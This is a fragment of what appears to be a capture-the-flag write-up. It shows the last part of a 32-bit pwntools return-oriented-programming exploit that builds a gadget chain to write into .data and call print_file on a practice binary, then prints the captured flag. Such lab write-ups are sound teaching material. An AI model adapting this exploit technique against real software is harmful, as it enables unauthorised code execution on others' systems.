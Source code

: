 ```python
    payload += p32(mov_ebp_pext_addr)
    payload += p32(xchg_ptr_ecx_dl_addr)

# with our .data set up, we can call print_file
payload += p32(elf.symbols['print_file'])
payload += b'A' * 4
payload += p32(data_addr)

p.sendline(payload)
p.interactive()

```

And we get the flag:
```
Thank you!
ROPE{a_placeholder_32byte_flag!}
```